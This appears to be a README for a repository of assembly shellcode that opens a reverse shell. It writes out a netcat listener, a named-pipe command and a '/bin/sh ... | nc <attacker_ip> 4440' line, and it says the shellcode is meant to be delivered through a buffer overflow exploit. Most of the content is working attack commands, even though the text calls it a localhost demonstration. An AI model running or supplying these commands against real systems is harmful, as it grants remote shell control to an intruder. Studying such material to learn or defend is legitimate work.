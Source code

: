 # ReverseShell
Assemble code for establishing a reverse shell

Since this code is for demonstration purposes, the attacker and the victim system is the same.

1. Have your attacker system listening on port 4440 using command
"nc -lvp 4440"

2. On the victim system you have to execute the following commands:
a. "mknod /tmp/bpc p". This command creates a pipe that can be used with tcp connections to transmit/receive data.
b. "/bin/sh 0</tmp/bpc | nc <attacker_ip> 4440 1>/tmp/bpc". In our case <attacker_ip> would be "localhost". This command uses the created pipe /tmp/bpc to listen for and transmit tcp data to localhost:4440.

In order to establish a reverse shell, the attacker has to execute commands listed in 2 on victims system. This can be done by exploiting a buffer overflow vulnerability in the victims system.

Once a buffer overflow vulnerablitiy is found, an attacker can use the shellcodes for the above mentioned commands and use them with the overflow exploit code.

myattempt.s - Assembly code to execute command "mknod /tmp/bpc p" on the victim system
myattempt.txt - shellcode for myattempt.s
myattempt0.s - Assembly code to execute command "/bin/sh 0</tmp/bpc | nc localhost 4440 1>/tmp/bpc" on the victim system
myattempt0.txt - shellcode for myattempt0.txt
